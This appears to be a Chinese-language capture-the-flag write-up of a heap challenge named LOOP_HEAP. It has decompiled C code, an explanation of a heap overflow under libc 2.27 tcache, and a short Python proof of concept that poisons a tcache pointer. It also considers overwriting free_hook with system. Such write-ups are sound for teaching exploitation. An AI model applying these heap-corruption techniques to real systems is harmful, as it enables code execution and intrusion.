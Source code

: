# LOOP_HEAP

连续分配和释放chunk，可以写入超界数据，保护全开。

![KQxMxO](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/KQxMxO.png)

**审计**

第一次输入分配size大小的chunk，第二次输入写入数据的长度size（可以超过chunk大小），第三次输入数据data。程序会不停循环，libc版本是2.27，所以包含tcachebins。

漏洞是在写chunk的时候能够堆溢出，覆盖下一个chunk。

特殊的是，当输入的size值为1234时，使我们能够修改buf指针。(不确定)

```c
  size_4 = 1;
  v8 = 20;
  sub_A3A();
  while ( 1 )
  {
    v3 = v8--;
    if ( v3 <= 0 )
      break;
    printf("malloc size: ");
    size = sub_AC9();
    if ( size == 1234 && size_4 ) //是我们能够修改buf指针
    {
      size_4 = 0;
      read(0, &buf, 8uLL);
      *buf = 0LL;
      size = *buf;
    }
    if ( size > 0x80 )
      exit(1);
    buf = malloc(size);
    if ( !buf )
      exit(1);
    if ( ::buf )
      free(::buf);
    ::buf = buf;
    printf("read size: ");
    sizea = sub_AC9();
    if ( sizea > 0x80 )
      exit(1);
    printf("data: ");
    if ( read(0, ::buf, sizea) <= 0 )
      exit(1);
  }
  return 0LL;
}
```

Demo

验证代码能够修改tcachebins指向0x41414141

![78xN00](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/78xN00.png)

```python
mrd(0x10,0x10,"A"*0x10)#chunk_a
mrd(0x10,0x10,"B"*0x10)#chunk_b
mrd(0x10,0x30,"C"*0x18+p64(0x21)+p64(0x41414141))#chunk_c
```

这道题的malloc_hook和free_hook居然在bss段，第一次见到这样的题目。。。这样的话只要能泄露程序地址就能写malloc_hook了，但是这并没有用，one_gadget地址还是不确定，如果能覆盖free_hook为system那还有可能。

![4JxJag](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/4JxJag.png)

